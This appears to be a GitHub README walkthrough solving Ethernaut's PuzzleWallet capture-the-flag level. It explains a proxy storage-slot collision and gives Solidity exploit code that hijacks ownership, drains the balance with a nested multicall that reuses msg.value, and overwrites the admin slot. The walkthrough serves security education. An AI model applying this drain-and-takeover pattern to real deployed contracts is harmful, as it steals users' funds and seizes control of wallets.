 # Ethernaut Walkthrough: Puzzle-Wallet
## Welcome to KweenBirb's 25th installment of Ethernaut walkthroughs! 

Ethernaut is a set of gamified Solidity challenges in the style of a CTF, where each level features a hackable smart contract that will inform you of various known security vulnerabilities on EVM blockchains.

This repo will walk you through a solution to PuzzleWallet.sol, the 25th challenge in the series. You can find the challenge itself and fully fleshed out solution in the .txt file in the root directory and .sol file in the ./src directory. Let's begin!

In this challenge, Ethernaut describes a transaction-batching collective wallet contract in the form of an upgradeable proxy, using delegatecall to a separate logic implementation contract to perform multiple functions in a single call. Thrifty for gas costs, but of course we know there's a bug :)  We're instructed 'to hijack this wallet to become the admin of the proxy.'

This challenge presents us with a lengthier codebase than in previous challenges, so let's start by working backwards. Our objective is to find a security hole that lets us assume the admin role, so first we search for a function that updates the admin.

```
function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
}
```

Okay, that's not very helpful. Only the current admin can call this function that updates the contract's new admin. So to become admin we have to... be the admin? There's an external proposeNewAdmin() function that will set the storage address pendingAdmin to an address of our choosing, but that still won't help us.

In checking the contract state (using Foundry since Ethernaut only lets us interface with the wallet):

```cast call --rpc-url $RPC $PROXY "pendingAdmin():(address)"```

and

```cast call --rpc-url $RPC $PROXY "admin():(address)"```

We can see the admin variable was already set by the constructor. Drat. Let's inspect the logic implementation contract instead, then.

The logic implementation has a storage address owner and storage uint256 maxBalance.  Perhaps we need to become owner first? That takes us to the init() function, which requires the logic implementation's contract to be 0:

```
function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
}
```

Maybe the maxBalance variable wasn't properly initialized when the logic implementation was deployed? Proxy contract constructors are notoriously tough to keep track of... Let's check (using Ethernaut's web3js wrapper):

```await contract.maxBalance()```

That's interesting... Unfortunately it's not the 0 that we were hoping for in order to call init() and assume ownership. However, it's the same hexadecimal 'uint' as the address returned when we checked the storage state variables in the proxy contract... Oh man is there a storage collision!?

## Be careful with proxies!

Yep, check it out! Because of mismatched storage layouts, the maxBalance storage variable reads/writes from the admin storage variable. On further examination, these values match both pendingAdmin and admin storage values as well! Seeing as we can affect the variables from the same storage slot we should be able to do some weird shit...

Conveniently for us, the only function in the proxy contract that can be called without invoking the onlyAdmin() modifier is one to propose a pendingAdmin. Lo and behold, pendingAdmin is the slot being read from to return the owner. This means we can call proposeNewAdmin() to assume ownership of the wallet contract. 

It's not full admin priveleges, but what a perfect foot in the door to maneuver deeper into the access control roles of the contract!

## Let's pwn this shit!

First we need to set pendingAdmin to a malicious contract we control so that we can pass the addToWhitelist() require check that reads from the owner/pendingAdmin storage slot. Easiest way to claim ownership ever, I guess!

```
function sharingStorageIsntCaring() public {
    // become owner aka pendingAdmin lol
    instance.proposeNewAdmin(address(this)); 
}
```

Okay, that was easy. Next we add ourselves to the whitelist:

```     
// become whitelisted via pwnership
instanceWallet.addToWhitelist(address(this));
```

Here comes the tricky part: we have to find a way to call the function setMaxBalance() in order to become the admin of the proxy, but it is blocking us from doing so because the contract possesses a small balance of Eth:

```require(address(this).balance == 0, "Contract balance is not 0");```

Just 0.001 ether standing in the way of KweenBirb's ascension to KweenAdministrator. This, compounded with the fact that execute(), the function that handles ether withdrawals, also appears to block any way for us to gain control of these funds:

```require(balances[msg.sender] >= value, "Insufficient balance");```

But the multicall() function just below execute() looks really juicy as it accepts a bytes[] array parameter and we know from Ethernaut's Alien Codex level that strange things can occur when you accept byte parameters; especially when there's a delegatecall in the mix!

On closer examination, we see a for loop structure that first checks for the bytes4(sha3()) function selector for this contract's deposit() method. Shit! That keeps us from calling deposit twice to reuse msg.value via delegatecall's preservation of msg.value context:

```
bytes4 selector;
assembly {
    selector := mload(add(_data, 32))
}
if (selector == this.deposit.selector) {
    require(!depositCalled, "Deposit can only be called once");
    // Protect against reusing msg.value
    depositCalled = true;
}
```

But multicall()'s entire purpose is to wrap multiple other function calls into one transaction, so why don't we trick the above logic by wrapping our second deposit() call into yet another multicall()? This should let us bypass the selector check above using something like this: 

```multicall('deposit()', multicall('deposit()'))```

The check will only see the multicall selector when it reaches the second index in the byte array, then go on to execute a second deposit() and spoof msg.value, raising our balance above what we actually sent. To do so, we craft a specific payload doing exactly that:

```     
// drain victim proxy contract balance to 0
bytes[] memory data = new bytes[](3);
bytes[] memory nestedData = new bytes[](1);
data[0] = bytes(abi.encodeWithSignature("deposit()"));
nestedData[0] = data[0];
data[1] = bytes(abi.encodeWithSignature("multicall(bytes[])", nestedData));
data[2] = bytes(abi.encodeWithSignature(
        "execute(address,uint256,bytes)", 
        address(0x0000000000000000000000000000000000000000), 
        0.002 ether, 
        'KweenBirb just pwnd u LOL'
        ));
instanceWallet.multicall{ value: 0.001 ether }(data);
```

You'll notice I included the execute() call that dumps the 0.002 ether to the burn address and taunts... well nobody in particular since it's an internal transaction to the burn address and nobody reads those. But KweenBirb does, and KweenBirb did, and it makes KweenBirb chuckle! Anyway, moving on: all that's left to do is ascend to KweenAdministrator. 

--note: In case you aren't familiar, ascension to Queen Administrator (descension, really) is a reference to Wildbow's flagship masterwork: "Worm"  If you like web serials, superhero sci-fi/fantasy genre, and haven't read it, go now and start it. You won't be disappointed!

```
// become admin by setting maxBalance (aka admin) to KweenBirbhaxxz0r LOL
instanceWallet.setMaxBalance(uint256(uint160(hacker)));
```

Bam. That's our pwn function in a bugshell. Deploy, destroy, and enjoy!

Congratulations on defeating the Worm by gaining administrative access to the ever-untapped power well of social coordination. Long live Khepri.

h00t h00t
